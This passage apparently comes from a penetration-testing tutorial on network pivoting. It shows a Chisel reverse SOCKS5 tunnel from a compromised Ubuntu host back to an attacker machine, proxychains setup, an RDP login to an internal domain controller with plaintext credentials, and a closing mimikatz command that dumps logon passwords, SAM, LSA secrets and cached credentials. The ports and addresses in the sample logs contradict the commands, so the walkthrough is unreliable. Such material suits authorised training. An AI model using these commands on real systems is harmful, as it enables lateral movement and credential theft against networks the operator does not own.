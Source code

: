 When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

##### Starting the Chisel Server on our Attack Host



```c
c4ndy@htb[/htb]$ sudo ./chisel server --reverse -v -p 2222 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

##### Connecting the Chisel Client to our Attack Host



```c
ubuntu@WEB01$ ./chisel client -v 192.168.45.220:5555 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

##### Editing & Confirming proxychains.conf

```c
c4ndy@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```c
c4ndy@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

```c
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```
